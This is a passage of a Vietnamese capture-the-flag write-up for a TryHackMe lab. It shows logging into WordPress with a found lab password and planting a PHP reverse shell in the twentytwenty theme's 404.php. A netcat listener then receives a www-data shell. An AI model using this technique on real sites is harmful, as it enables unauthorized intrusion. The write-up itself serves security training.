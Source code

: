 ```python
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
```

Từ những thông tin trên, tôi thu được 1 wordpress với phiên bản 5.5.1, nó đang sử dụng theme *twentytwenty* phiên bản cũ, đây có thể là 1 lưu ý để thực hiện RCE sau khi đã login được vào wordpress.

Tiếp theo là user *elyana* đúng như tôi dự đoán phía trên. Vậy thì tôi sẽ thử login wordpress với username *elyana* và pass là đoạn text tôi vừa tìm được

Tôi thành công với *elyana - H@ckme@123*. Truy cập vào theme *twentytwenty* và sửa nó với shell php của tôi, thay đổi địa chỉ ip và port bằng địa chỉ máy của tôi và update file.

![get shell](/assets/img/2022-03-30-THM-All-in-One/4.webp)

Sau đó tạo listener với netcat: `nc -lnvp 2402`

Truy cập vào link: `http://10.10.183.28/wordpress/wp-content/themes/twentytwenty/404.php`

```python
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 2402                
listening on [any] 2402 ...
connect to [10.6.0.191] from (UNKNOWN) [10.10.183.28] 54774
Linux elyana 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:00:05 up 26 min,  0 users,  load average: 0.00, 0.02, 0.29
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```
